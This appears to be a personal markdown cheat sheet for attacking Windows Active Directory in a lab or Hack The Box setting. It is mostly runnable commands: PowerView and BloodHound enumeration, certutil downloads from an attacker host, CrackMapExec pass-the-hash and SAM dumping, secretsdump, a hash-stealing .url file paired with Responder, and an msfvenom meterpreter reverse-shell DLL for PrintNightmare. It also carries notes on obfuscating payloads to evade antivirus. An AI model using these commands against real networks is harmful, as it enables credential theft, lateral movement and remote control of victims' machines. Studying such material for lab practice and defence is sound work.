





**1 Enum: Powerview & Enum**
**2 Enum: Bloodhound**
**3 PTH / Post Enum Attack**
**4 URL File Attacks**
**5 References**

---

## **1. Powerview.ps1:**

Place powerview.ps1 on normal Wc10 machine

`powershell -ep bypass #bypass execution policy`

cd to dir with powerview.ps1

`. .\Powerview.ps1 #runs shell - returns 0 output`

Enumerate W10 machine

```
Get-DomainPolicy
(Get-DomainPolicy)."system access" #PW/ACC info
Get-Netdomain
Get-Netdomaincontroller
Get-Netuser | select cn
Get-Netcomputer -fulldata
Get-Computerinfo #HW info
Get-Netgroup -groupname *admin* # admin group names
Get-Netgroupmember -groupname "Domain Admins"
Invoke-Sharefinder #show all shares
Get-NetGPO | select displayname, whenchanged
```

---

## **2. Bloodhound:**

```
apt install bloodhound`
sudo neo4j console
click link to open "localhost..."
default creds: neo4j:neo4j 
kali$ bloodhound && then login with new creds.
```

**Download Ingestor:**

W10 download sharphound.ps1
```
> powershell -ep bypass \
> . .\sharphound.ps1 \ 
> Invoke-BloodHound -collectionmethod All -Domain Carbon.local -Zipfilename File.zip \
```

**HTB:: (see IppSecRules)**
Once creds are found: (IE: active.htb/(\)svc_tgs:GGPStillStandingstrong18)
    + obtain shell access w/ low level user: (Window10 box w/ openvpn, sharphound.ps1)
        `cmd> runas /netonly /user:active.htb\svc_tgs cmd #will run without Windows10 validation specifiy PW as well`
        New cmd prompt comes up with access to machine. see     
    + Now because user(svc_tgs) has been authenticated: run bloodhound.
    + **See **
```
        kali# python3 -m http.server 8080        
        cmd> certutil -urlcache -f http://<attack-ip>:8080/SharpHound.exe SharpHound.exe
        || in browser: http://<attack-ip>:8080 && DL sharphound.exe there. 
``` 

   + Move bloodhound info to Kali machine:
   + Inspect with Neo4j on kali machine:
        See 

move file.zip first onto baremetal Desktop then to kali VM.
#make sure sudo neo4j start && sudo bloodhound
import data :: enjoy


## **Attacking AD - Post-Compromise Attacks:**

## **3. Pass-The-Hash:**
```
apt install crackmapexec \ 
crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' \
```


`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' --sam` \ 

 

`psexec.py carbon.local/e.triage:'Password!1'@192.168.86.206` \

 \ 

## **Secretsdump.py:**

`secretsdump.py carbon/e.triage:'Password!1'@192.168.86.206` \



## **NTLM hash Example:**

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Propylene  Malz:1001:aad3b435b51404eeaad3b435b51404ee:3d888ed3f1196c792588c37ddfd32746:::
Ethyl Triage:1001:aad3b435b51404eeaad3b435b51404ee:2d450bc49b158d89cc6ec49db47ba095:::
```
**You can pass NTLM hashes around but CANNOT pass NTLMv2 hashes**
        
**4.Example script:**

+ filename: @something.url #Try to accommodate to folder/user name
+ Placed in C:\Share
```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<attack-ip>\%USERNAME%.icon
IconIndex=1
```
+ `kali$ sudo responder -I eth0 -v`
+ Visit Share fold with domain admin
+ Creds obtained see 
+ Also suspectable to ***relaying***

**5 PrintNightmare (CVE-2021-1675)::**
+ Check vuln:
```
$ rpcdump.py @192.168.86.205(DC) | egrep 'MS-RPRN|MS-PAR'::
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
***Vulnerable***

***Host dll***
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attack-ip> LPORT=5555 -f dll > shell.dll
$ msfconsole use multi/handler set lhost <attack-ip> LPORT=5555 setpayload windows/x64/meterpreter/reverse_tcp run

***Setup file share***
smbshare.py share 'pwd' (share on present working dir)
***setup UN&PW***
```
+ TODO:: obfuscate .dll for AV bypassing. Try:: [obsfucar](https://medium.com/@s961441/obfuscate-your-application-dll-files-with-obfuscar-a60cb950a9bb)

**6 Mikikatz::**
+Post exploitation of DC
+Mimikatz needs to be on DC
+TODO obfuscate payloads


---
## **References:**
```
[log4j_notice_devs](https://community.neo4j.com/t/log4j-cve-mitigation-for-neo4j/48856)\
[powerview.ps1_GH](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)\
[hacktricks_BH](https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound)\
[bloodhound_GH](https://github.com/BloodHoundAD)\
[sharphound.ps1_GH](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
[Ippsec_rules](https://www.youtube.com/watch?v=jUc1J31DNdw)
[URL_attack_writeable_share](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share)
[CVE-2021-1675_1](https://github.com/cube0x0/CVE-2021-1675)
[CVE-2021-1675_2](https://github.com/calebstewart/CVE-2021-1675)
[Mimikatz](https://github.com/gentilkiwi/mimikatz)
```
